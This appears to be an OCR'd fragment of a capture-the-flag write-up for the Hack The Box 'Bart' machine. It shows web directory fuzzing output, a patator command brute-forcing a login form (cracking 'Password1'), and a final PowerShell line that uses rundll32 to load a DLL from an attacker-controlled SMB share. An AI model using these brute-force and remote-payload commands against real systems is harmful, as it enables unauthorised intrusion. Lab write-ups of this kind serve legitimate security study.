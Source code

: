 ```bash
[22:11:34] 302 -    4B  - /index.PHP  ->  simple_chat/login_form.php
[22:11:34] 302 -    4B  - /index.php/login/  ->  simple_chat/login_form.php
[22:11:37] 301 -  155B  - /log  ->  http://internal-01.bart.htb/log/
[22:11:37] 200 -  404B  - /log/log.txt
[22:11:51] 301 -  155B  - /sql  ->  http://internal-01.bart.htb/sql/
[22:11:51] 301 -  155B  - /SQL  ->  http://internal-01.bart.htb/SQL/
```

![](pics/useragent.JPG)

We visist the internal-01.bart.htb address now and we get to another login panel.
![](pics/internalloginpanel.JPG)


This one doesnt have a csrf token so its easy to setup bruting with patator and check for Harvey and our other employee accounts. We want to follow redirects from cookies here sent by the application with the follow and accept_cookie flags set to =1.

```bash
$ patator http_fuzz url=http://internal-01.bart.htb/simple_chat/login.php method=POST body="uname=harvey&passwd=FILE0&submit=Login" 0=10k.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid Username or Password' -x ignore:fgrep='The Password must be at least 8 characters'
18:12:25 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2019-07-19 18:12 EDT
18:12:25 patator    INFO -                                                                              
18:12:25 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:12:25 patator    INFO - -----------------------------------------------------------------------------
18:19:17 patator    INFO - 200  3312:2735      1.201 | Password1                          |   568 | HTTP/1.1 200 OK
```

[localhost]: PS C:\Users\Administrator\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"